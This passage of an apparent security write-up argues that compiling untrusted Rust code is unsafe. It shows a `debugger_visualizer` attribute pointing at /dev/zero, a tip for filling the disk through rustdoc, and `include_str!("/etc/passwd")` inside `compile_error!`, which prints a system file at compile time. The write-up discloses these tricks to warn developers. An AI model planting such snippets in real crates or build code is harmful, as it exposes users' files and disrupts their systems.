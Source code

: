 Once the rust project implements restrictions around `include_str!()` then you can just use `debugger_visualizer()`.

```rust
#![debugger_visualizer(gdb_script_file = "/dev/zero")]
```

Bonus: This `rustdoc` feature can be tweaked to fill up all available space on the hard disk by including large-but-not-infinite-sized files into the documentation, which will then be copied to `doc/` folder and fill up the hard disk.



# Expectation: No security risk when compiling with `rustc`

As with many programming languages, all security goes out of the window once you compile untrusted code.
But the following issues are not a gravity-like physical phenomenon, they're a design choice by the rust project.

## Reality: `rustc` exposes arbitrary files 

Put example code into `main.rs` and run `rustc main.rs`. 

```rust
compile_error!(include_str!("/etc/passwd"));

fn main () {
  println!("this code is never run");
}
```

The compilation will abort and show an error message, but arbitrary files have already been accessed. If an attacker goes as far as creating their own build script with macros, they can immediately exfiltrate the stolen information from your system. If the attacker doesn't want to create network traffic at compile time, they can exfiltrate your secrets by simply including them in the compiled binary.

```
$ rustc rustc_access_files.rs 
error: root:x:0:0::/root:/bin/bash
       bin:x:1:1::/:/usr/bin/nologin
       daemon:x:2:2::/:/usr/bin/nologin
       mail:x:8:12::/var/spool/mail:/usr/bin/nologin
       ftp:x:14:11::/srv/ftp:/usr/bin/nologin
       [...]
       alpm:x:943:943:Arch Linux Package Management:/:/usr/bin/nologin
 --> rustc_access_files.rs:1:1
  |
1 | compile_error!(include_str!("/etc/passwd"));
  | ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

error: aborting due to 1 previous error
```
